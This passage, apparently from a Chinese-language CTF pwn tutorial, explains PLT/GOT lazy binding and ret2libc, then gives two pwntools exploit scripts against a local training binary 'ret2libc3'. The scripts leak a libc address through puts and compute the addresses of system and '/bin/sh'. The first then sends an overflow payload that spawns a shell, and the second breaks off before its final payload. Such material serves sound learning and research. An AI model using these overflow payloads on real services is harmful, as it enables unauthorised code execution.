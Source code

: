 若该函数已经被访问过，则流程简单如下：

`call xxx@plt`->`plt`->`got`

### ret2libc流程

为什么要`ret2libc`？因为有的情况下，程序里面不会给我们提供一些显式的字符串，也没有可以利用的`gadgets`。但我们的程序需要使用库函数，是要连接`libc`库里面的，我们便可以利用`libc`库中的其他函数，只是需要知道函数在`libc`中的地址。虽然这个地址肯定是会变的，但是函数与函数间的相对地址不会变；或者说即使程序有ASLR保护，也只针对地址中间位进行随机，最低12位不会发生变化。因此我们只需要获得某一个函数在`libc`中的地址，就可以通过相对地址来获得其他的函数。

通过延迟访问机制后，我们即可明白：若直接访问一个没有访问过的函数的`got`表，是没有办法得到这个函数在`libc`中的真实地址的。因此，我们只能泄露一个已经访问的函数在`got`表中的地址。

这里写一个`wiki`里面的`exp`：

    from pwn import *
    from LibcSearcher import LibcSearcher
    sh = process('./ret2libc3')

    ret2libc3 = ELF('./ret2libc3')

    puts_plt = ret2libc3.plt['puts']
    libc_start_main_got = ret2libc3.got['__libc_start_main']
    main = ret2libc3.symbols['main']

    print "leak libc_start_main_got addr and return to main again"
    payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
    sh.sendlineafter('Can you find it !?', payload)

    print "get the related addr"
    libc_start_main_addr = u32(sh.recv()[0:4])
    libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
    libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
    system_addr = libcbase + libc.dump('system')
    binsh_addr = libcbase + libc.dump('str_bin_sh')

    print "get shell"
    payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
    sh.sendline(payload)

    sh.interactive()

和另外一个，可以看一下区别：

    from pwn import *
    from LibcSearcher import *

    elf=ELF('ret2libc3')
    p=process('./ret2libc3')
    puts_plt=elf.plt['puts']
    puts_got=elf.got['puts']
    start_addr = elf.symbols['_start']

    #gdb.attach(p)
    payload1='A'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got)
    p.sendlineafter("!?",payload1)
    puts_addr=u32(p.recv(4))

    libc=LibcSearcher('puts',puts_addr)
    libcbase=puts_addr-libc.dump("puts")
    system_addr=libcbase+libc.dump("system")
    binsh_addr=libcbase+libc.dump("str_bin_sh")
